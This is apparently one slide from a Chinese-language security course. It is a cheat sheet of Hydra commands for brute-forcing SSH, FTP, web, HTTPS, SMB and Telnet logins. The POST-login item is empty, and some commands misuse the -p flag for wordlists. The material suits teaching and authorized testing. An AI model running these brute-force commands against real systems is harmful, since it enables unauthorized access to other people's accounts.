

# 密码爆破hydra
Cupp 生成字典
1、破解ssh：
hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip ssh
hydra -l 用户名 -p 密码字典 -t 线程 -o save.log -vV ip ssh
2、破解ftp：
hydra ip ftp -l 用户名 -P 密码字典 -t 线程(默认16) -vV
hydra ip ftp -l 用户名 -P 密码字典 -e ns –vV
3、get方式提交，破解web登录：
hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip http-get /admin/
hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns -f ip http-get /admin/index.php
4、post方式提交，破解web登录：
5、破解https：
hydra -m /index.php -l muts -P pass.txt 10.36.16.18 https
6、破解smb
hydra -l administrator -P pass.txt 10.36.16.18 smb
7、破解telnet
hydra ip telnet -l 用户 -P 密码字典 -t 32 -s 23 -e ns -f -V
54